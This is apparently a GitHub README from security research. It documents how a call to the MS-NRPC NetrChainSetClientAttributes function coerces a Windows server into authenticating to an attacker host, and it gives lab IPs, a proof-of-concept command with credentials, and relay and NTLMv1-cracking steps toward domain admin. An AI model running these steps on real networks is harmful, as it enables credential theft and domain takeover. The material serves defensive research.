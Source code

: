 # MS-NRPC - Remote call to NetrChainSetClientAttributes (opnum 49)

## Summary

+ **Protocol**: [[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f)

+ **Protocol UUID**: 12345678-1234-abcd-ef00-01234567cffb

+ **Protocol version**: 1.0

+ **SMB Named pipe**: `\PIPE\NETLOGON`

+ **Function name**: [`NetrChainSetClientAttributes`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/3a416e82-0299-4ff0-a25d-223f972ba1d6)

+ **Function operation number**: `49`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\NETLOGON` and bind to the desired [`MS-NRPC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) protocol (with uuid `12345678-1234-abcd-ef00-01234567cffb` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-NRPC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\NETLOGON` This pipe is connected to the protocol [[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) and allows to call RPC functions of this protocol. We will then call the remote [`NetrChainSetClientAttributes`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/3a416e82-0299-4ff0-a25d-223f972ba1d6) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrChainSetClientAttributes('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NTSTATUS NetrChainSetClientAttributes(
   [in, string, ref] LOGONSRV_HANDLE PrimaryName,
   [in, string, ref] wchar_t* ChainedFromServerName,
   [in, string, ref] wchar_t* ChainedForClientName,
   [in, ref] PNETLOGON_AUTHENTICATOR Authenticator,
   [in, out, ref] PNETLOGON_AUTHENTICATOR ReturnAuthenticator,
   [in] DWORD dwInVersion,
   [in, ref] [switch_is(dwInVersion)] 
     NL_IN_CHAIN_SET_CLIENT_ATTRIBUTES* pmsgIn,
   [in, out, ref] DWORD* pdwOutVersion,
   [in, out, ref] [switch_is(*pdwOutVersion)] 
     NL_OUT_CHAIN_SET_CLIENT_ATTRIBUTES* pmsgOut
 );
```

## References

+ Documentation of protocol [MS-NRPC]: Netlogon Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f

+ Documentation of function `NetrChainSetClientAttributes`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/3a416e82-0299-4ff0-a25d-223f972ba1d6